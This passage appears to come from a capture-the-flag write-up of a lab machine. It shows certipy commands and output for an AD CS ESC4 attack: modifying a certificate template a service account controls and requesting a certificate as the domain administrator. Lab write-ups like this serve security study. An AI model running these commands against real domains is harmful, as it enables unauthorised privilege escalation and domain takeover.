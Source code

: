 Looking at the `bloodhound` we can see that the `infiltrator_svc$` user has `WriteDacl`, `WriteOwner`, and `GenericWrite` permissions over the `Infiltrator_Template` certificate template, which allows us to perform an `ESC4` attack. 

## ADCS - ESC4 Attack
To better enumerate the `ADCS` configuration, we can use the `certipy` tool, which allows us to enumerate the certificate templates, certificate authorities, and issuance policies.

```bash
certipy find -u 'infiltrator_svc$@infiltrator.htb' -hashes ':<REDACTED>' -vulnerable -stdout

Certipy v5.0.2 - by Oliver Lyak (ly4k)

<SNIP>
Certificate Templates
  0
    Template Name                       : Infiltrator_Template
    Display Name                        : Infiltrator_Template
    Certificate Authorities             : infiltrator-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

To perform the `ESC4` attack, we need to update the `Infiltrator_Template` certificate template with the necessary permissions and then request a certificate using the `certipy` tool.

- **Modify the template**:

    ```bash
    certipy template \
        -u 'infiltrator_svc$@corp.local' -hashes ':<REDACTED>' \
        -dc-ip '10.10.11.31' -template 'Infiltrator_Template' \
        -write-default-configuration
    	
    <SNIP>
    Are you sure you want to apply these changes to 'Infiltrator_Template'? (y/N): y
    [*] Successfully updated 'Infiltrator_Template'
    ```

- **Request the certificate**

     ```bash
     certipy req \
         -u 'infiltrator_svc$@corp.local' -hashes ':<REDACTED>' \
         -dc-ip '10.10.11.31' -template 'Infiltrator_Template' \
         -upn 'administrator@infiltrator.htb' -target 'dc01.infiltrator.htb' -ca 'infiltrator-DC01-CA'
     Certipy v5.0.2 - by Oliver Lyak (ly4k)
     
     [*] Requesting certificate via RPC
     [*] Request ID is 9
     [*] Successfully requested certificate
     [*] Got certificate with UPN 'administrator@infiltrator.htb'
     [*] Certificate has no object SID
     [*] Try using -sid to set the object SID or see the wiki for more details
     [*] Saving certificate and private key to 'administrator.pfx'
     [*] Wrote certificate and private key to 'administrator.pfx'
     ```
